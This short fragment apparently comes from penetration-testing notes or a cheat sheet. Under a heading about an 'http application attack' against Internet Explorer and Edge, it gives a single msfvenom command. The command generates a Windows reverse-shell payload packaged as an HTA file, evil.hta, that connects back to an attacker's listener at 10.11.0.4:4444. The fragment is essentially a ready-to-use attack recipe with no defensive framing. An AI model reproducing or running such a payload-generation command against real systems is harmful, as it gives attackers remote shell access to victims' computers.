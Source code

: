 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```
